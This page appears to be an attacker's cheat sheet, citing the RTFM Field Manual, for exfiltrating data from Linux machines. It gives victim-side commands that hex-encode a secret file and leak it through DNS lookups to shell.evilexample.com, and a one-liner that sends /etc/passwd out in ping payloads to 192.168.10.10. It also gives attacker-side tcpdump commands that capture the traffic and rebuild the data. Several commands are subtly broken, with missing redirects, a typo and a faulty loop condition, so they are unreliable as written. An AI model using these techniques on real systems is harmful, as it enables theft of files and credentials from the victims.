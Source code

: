###### Resource
* RTFM Field Manual 

##### DNS Transfer on Linux
###### On Victim:
###### Hex encode the file to the transfered
* xxd -p secret file.hex

###### Read each line and do a DNS lookup
* for b in `cat file.hex` ; do dig $b.shell.evilexample.com ; done

###### On Attacker:
###### Capture DNS exfil packets
* tcpdump -w /tmp/dnsdemo -s) port 53 and host system.example.com

###### Cut the exfilled hex from the DNS packet
* tcpdump -r dnsdemo -n | grep shell.evilexample.com | cut -f9 -d ' ' | cut -f1 -d' .' | uniq received.txt

###### Reverse the hex encoding 
* xxd -r -p received.txt keys.pgp

##### Exfil Linux over ICMP
###### On victim (never ending 1 liner):
``` stringZ=`cat /etc/passwd | od -tx1 | cut -c8- | tr -d " " | tr -d "\n"`; counter=0; while (($counter = ${#stringZ})); do ping -s 16 -c 1 -p ${stringZ:$counter:16} 192.168.10.10 && counter=$((counter+16));done ```

###### On attacker (capture packets to data.dmp and parse):
* tcpdump -ntvvSxs 0 'icmp[0]=8' -w data.dmp
* grep 0x0020 data.dmp | cut -c21- | tr -d ' ' | tr -d "\n" | xxd -r -p
